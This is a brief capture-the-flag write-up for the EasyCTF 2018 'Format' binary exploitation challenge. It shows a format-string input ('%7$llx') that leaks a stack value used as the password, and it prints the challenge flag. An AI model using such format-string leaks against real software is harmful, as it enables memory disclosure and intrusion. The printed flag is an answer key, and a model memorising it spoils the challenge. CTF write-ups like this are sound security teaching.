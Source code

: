 # EasyCTF_2018: Format

**Category:** Binary Exploitation
**Points:** 160
**Description:**

>Go to `/problems/format` on the shell server and tell me what is in `flag.txt`.

## Write-up
We are given two relevant files, [format](format) and [format.c](format.c). This is a really easy challenge where you just have to format string your way out. However, as it is a 64-bit binary, certain tricks have to be played to get the password :)

    $ ./format
    Enter your name: %7$llx
    Your name is: 1eb89e5c00000000

    Enter your secret password (in hex)
    0x1eb89e5c
    easyctf{p3sky_f0rm4t_s7uff}

Therefore, the flag is `easyctf{p3sky_f0rm4t_s7uff}`.
